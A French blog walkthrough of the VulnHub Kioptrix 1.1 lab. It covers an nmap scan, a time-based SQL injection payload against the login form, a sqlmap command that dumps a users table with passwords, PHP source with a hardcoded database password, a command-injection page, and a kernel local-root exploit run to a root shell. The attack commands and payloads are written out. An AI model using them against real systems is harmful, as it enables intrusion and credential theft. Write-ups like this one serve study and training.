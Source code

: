 # Solution du CTF Kioptrix: 1.1 de VulnHub

Après un temps... quelque peu plus long que prévu, *SourceForge* a pu régler les derniers bugs provoqués par sa mise à jour et je peux enfin poster à nouveaux des articles.  

Comme prévu les walkthroughs à venir concernent la saga *Kioptrix*, ici il s'agit de [l'épisode 1.1](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) qui est bien le second et non une mise à jour du premier.  

Web exploitation 101
--------------------

```plain
Nmap scan report for 192.168.1.39
Host is up (0.00021s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            681/udp  status
|_  100024  1            684/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-07T23:10:47+00:00
|_Not valid after:  2010-10-07T23:10:47+00:00
|_ssl-date: 2018-02-13T20:41:56+00:00; +4h59m59s from local time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: 403 Forbidden
684/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
```

Le site web dispose d'une page de login très basique (champs user, password, bouton submit). *Wapiti* n'en fait qu'une bouchée :  

```plain
[*] Lancement du module blindsql
---
Faille d'injection SQL en aveugle dans http://192.168.1.39/index.php via une injection dans le paramètre uname
Evil request:
    POST /index.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    uname=%27%20or%20benchmark%2810000000%2CMD5%281%29%29%231&psw=letmein&btnLogin=Login
---
```

On enchaîne avec *sqlmap*, son meilleur ami :  

```bash
python sqlmap.py -u http://192.168.1.39/index.php --data "uname=Administrator&psw=test&btnLogin=Login" --risk 3 --level 5
```

Après avoir obtenu le nom de la base de données et des tables intéressantes on peut dumper le contenu de la table users avec *-D webapp -T users --dump*  

```plain
Database: webapp
Table: users
[2 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

Avec ces identifiants on peut passer la page de login et on tombe sur une classique faille d'exécution de commande :  

![Kioptrix 1.1 ping command execution](https://raw.githubusercontent.com/devl00p/blog/master/images/kioptrix/kioptrix2.png)

On en profite pour chercher quelques identifiants :  

```php
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
```

20CentOS
--------

Les identifiants ne permettent pas d'accéder aux comptes présents (*harold* et *john*) mais comme c'est un *Kioptrix* il suffit de chercher le bon exploit pour le système :  

```plain
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final
```

Ce qui nous amène à [une faille](https://www.exploit-db.com/exploits/9542/) découverte par *Tavis Ormandy* et *Julien Tinnes* touchant le kernel.  

```plain
bash-3.00$ gcc -o sploit sploit.c
gcc -o sploit sploit.c
sploit.c:109:28: warning: no newline at end of file
bash-3.00$ ./sploit
./sploit
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```

Au suivant !  


*Published February 22 2018 at 12:13*